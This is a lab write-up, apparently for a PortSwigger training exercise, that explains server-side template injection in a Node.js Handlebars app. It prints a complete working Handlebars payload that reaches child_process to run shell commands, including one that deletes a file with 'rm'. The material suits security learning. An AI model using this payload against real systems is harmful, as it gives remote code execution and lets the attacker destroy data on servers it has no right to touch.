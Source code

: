 ### Server side template injection (SSTI)
#### Intro
Server-side template injection is when an attacker is able to use native template syntax to inject a malicious payload into a template, which is then executed server-side.<br>
Template engines are designed to generate web pages by combining fixed templates with volatile data. Server-side template injection attacks can occur when user input is concatenated directly into a template, rather than passed in as data. 
#### Lab
<i>Please note that my Lab ID will change during the explanation</i><br>
To solve the lab, identify the template engine and find a documented exploit online that you can use to execute arbitrary code, then delete the morale.txt file from Carlos's home directory.

So let's try to find an injection point, viewing the details of the first item we can see that the message query string parameter is reflected into the page:
<br>![img](./img/72.png)<br>
We can eventually try to test for XSS, but as we can see it is not vulnerable (at least not to a simple attack)
<br>![img](./img/74.png)<br>
anyway knowing that this is not the aim of the lab, we can move forward to test for a simple SSTI payload:
```
{{7*7}}
```
Then we get an error response that indicates that the application could be vulnerable, here we get two interesting information: A module called <b>handlebars</b> is used and the coding language seems to be <b>Node.js</b>. 
<br>![img](./img/73.png)<br>
Since I have a very little knowledge about Node.js and nothing about Handlebars I have no idea how to proceed further 🤨. Googling for 'ssti handlebars node.js' returned some interesting results, among all I found this one: http://mahmoudsec.blogspot.com/2019/04/handlebars-template-injection-and-rce.html<br>
Telling the truth I had problem to clearly understand what <b>Mahmoud Gamal</b> actually did 😬, so I had to study quite a bit the handlebars library and Node.js.
So I ended up to code the following payload:
```
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').exec('pwd');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```
Here the real exploit is the instruction:<br><b>return require('child_process').exec('pwd');</b><br>
That is the way to execute shell command in Node.js: https://nodejs.org/api/child_process.html<br>
The problem with this payload is that we don't get the command ouptut into the web page, since the exec method is asynchronous and we need and handler to return the command output:
<br>![img](./img/75.png)<br>
I struggled quite a lot to find a way to print the output command into the response, finally I discovered that I can use the <b>execSync</b> method to execute the command synchronous, so I modified the payload as follows:
```
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').execSync('ls -la').toString();"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```
This time we get the output printed into the response 😃
<br>![img](./img/76.png)<br>
To delete the morale.txt file just change the command string as follows:
```
return require('child_process').execSync('rm morale.txt').toString();
```
we can double check that the file has been deleted resending the previous payload to list the files.


#### Reference
+ https://portswigger.net/web-security/server-side-template-injection
+ https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection
